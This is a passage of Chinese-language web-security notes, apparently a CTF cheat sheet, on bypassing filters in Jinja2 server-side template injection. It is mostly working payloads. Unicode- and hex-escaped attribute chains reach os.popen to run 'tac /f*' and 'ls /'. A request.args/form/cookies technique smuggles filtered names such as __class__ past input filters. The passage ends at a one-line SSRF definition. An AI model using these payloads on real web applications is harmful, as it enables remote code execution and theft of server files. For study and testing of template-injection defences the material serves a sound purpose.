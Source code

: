 ```


unicode编码绕过
{%print((((lipsum|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f"))|attr("\u0067\u0065\u0074")("os"))|attr("\u0070\u006f\u0070\u0065\u006e")("\u0074\u0061\u0063\u0020\u002f\u0066\u002a"))|attr("\u0072\u0065\u0061\u0064")())%}
等同于lipsum.__globals__['os'].popen('tac /f*').read()




Hex编码绕过
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}   
等价于   
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

###### 

#### request方法绕过：

如果对我们特定的参数进行了严格的过滤，我们就可以使用request来进行绕过，request可以获得请求的相关信息，我们拿过滤__class__，可以用request.args.key且以GET方式提交key=**class__来替换被过滤的__class**

```
request.args.key  #获取get传入的key的值

request.form.key  #获取post传入参数(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)

reguest.values.key  #获取所有参数，如果get和post有同一个参数，post的参数会覆盖get

request.cookies.key  #获取cookies传入参数

request.headers.key  #获取请求头请求参数

request.data  #获取post传入参数(Content-Type:a/b)

request.json  #获取post传入json参数 (Content-Type: application/json)

```

### SSRF

#### SSRF概念

是一种由攻击者构造请求，由服务端发起请求的安全漏洞。

